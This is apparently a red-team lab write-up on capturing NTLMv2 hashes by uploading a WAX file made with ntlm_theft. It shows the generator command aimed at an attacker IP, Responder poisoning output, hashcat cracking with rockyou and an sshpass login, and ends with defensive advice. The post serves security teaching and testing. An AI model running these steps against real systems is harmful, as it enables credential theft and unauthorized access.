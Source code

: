 ```yaml
---
title: "NTLM Hash Capture via Legacy WAX File Bypass"
date: 2025-09-26 18:30:00 +0200
categories: [Red-teaming]
tags: [Red Teaming, NTLMv2, Responder, Hashcat, WAX, Credential Theft, Lateral Movement]
toc: true
pin: false
---
```


# NTLM Hash Capture via Legacy WAX File - Lab Demonstration

This lab scenario explores the capture of NTLMv2 hashes using a legacy WAX file combined with Responder for hash poisoning. The technique demonstrates a POC (proof of concept) 
approach that, while effective in controlled environments, may have varying real world applicability depending on target configurations and security controls. There was a option
to upload a Windows Media Player file through the Web GUI. This method could potentially be useful in red teaming engagements where legacy systems are present. 

## Attack Flow

### 1. Weaponized File Creation
The `ntlm_theft.py` tool generates multiple attack vectors including the `redteam.wax` file:

```bash
python3 ntlm_theft.py -g all -s 10.10.10.10 -f redteam
/home/kali/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: redteam/redteam.scf (BROWSE TO FOLDER)
Created: redteam/redteam-(url).url (BROWSE TO FOLDER)
Created: redteam/redteam-(icon).url (BROWSE TO FOLDER)
Created: redteam/redteam.lnk (BROWSE TO FOLDER)
Created: redteam/redteam.rtf (OPEN)
Created: redteam/redteam-(stylesheet).xml (OPEN)
Created: redteam/redteam-(fulldocx).xml (OPEN)
Created: redteam/redteam.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(includepicture).docx (OPEN)
Created: redteam/redteam-(remotetemplate).docx (OPEN)
Created: redteam/redteam-(frameset).docx (OPEN)
Created: redteam/redteam-(externalcell).xlsx (OPEN)
Created: redteam/redteam.wax (OPEN)
Created: redteam/redteam.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: redteam/redteam.asx (OPEN)
Created: redteam/redteam.jnlp (OPEN)
Created: redteam/redteam.application (DOWNLOAD AND OPEN)
Created: redteam/redteam.pdf (OPEN AND ALLOW)
Created: redteam/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: redteam/redteam.library-ms (BROWSE TO FOLDER)
Created: redteam/Autorun.inf (BROWSE TO FOLDER)
Created: redteam/desktop.ini (BROWSE TO FOLDER)
Created: redteam/redteam.theme (THEME TO INSTALL
Generation Complete.
```

### 2. NTLM Hijacking via .WAX

The [Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft){:target="_blank"} repository was used as a reference for generating test files in a controlled lab environment.  

### 3. Responder setup

```bash

Responder is initiated on the tun0 interface to capture authentication attempts:

responder -I tun0  
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [OFF]
    RDP server                 [OFF]
    DCE-RPC server             [OFF]
    WinRM server               [OFF]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.10.10]
    Responder IPv6             [dead:beef:2::10cd]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-VVA6SP3PVXI]
    Responder Domain Name      [OUZ4.LOCAL]
    Responder DCE-RPC Port     [48236]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.1.1
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : SNIP
[*] Skipping previously captured hash for MEDIA\enox
[*] Skipping previously captured hash for MEDIA\enox
[+] Exiting...

```

### 4. Hash capture

The `redteam.wax` file was uploaded via the web GUI and, when processed/previewed by the target, the authentication listener recorded an NTLMv2 authentication exchange.

```bash

Target interaction with the WAX file results in NTLMv2 hash capture:

SMB] NTLMv2-SSP Client   : 10.10.10.1
<SNIPPED GOT THE HASH>

Then saved the captured hash as enox.hash and cracked it by using hashcat.

hashcat enox.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 


```

### 5.  Logged in using sshpass
```bash
sshpass -p 'THECRACKEDPASSWORD' ssh enox@10.10.10.10

```


### 6. Conclusion

This lab showed that a legacy file format such as .WAX can be turned into a practical test of modern defenses. In a controlled environment the WAX file repeatedly caused an endpoint to
initiate an outbound NTLMv2 authentication exchange that revealed authentication metadata. That behavior highlights how older handlers and automatic retrieval mechanisms remain an underrated attack surface.

For red teams this provides a quiet but effective tool for social engineering and client side testing. A small user action, such as previewing or opening a media file,
can trigger protocol level behavior with real consequences. Use of this approach must be strictly authorised, carefully scoped, and fully documented to avoid real world harm.

For defenders the message is simple. Limit legacy protocol egress, harden client policies to reduce automatic retrieval of remote content, and
tune detection to link file open or preview events with outbound NTLM activity. Those steps will greatly reduce the odds that a routine media file becomes a pathway for credential exposure.

Ultimately legacy formats still matter. They can produce high impact, low visibility checks of network segmentation, endpoint configuration,
and detection maturity when used responsibly and with appropriate safeguards.


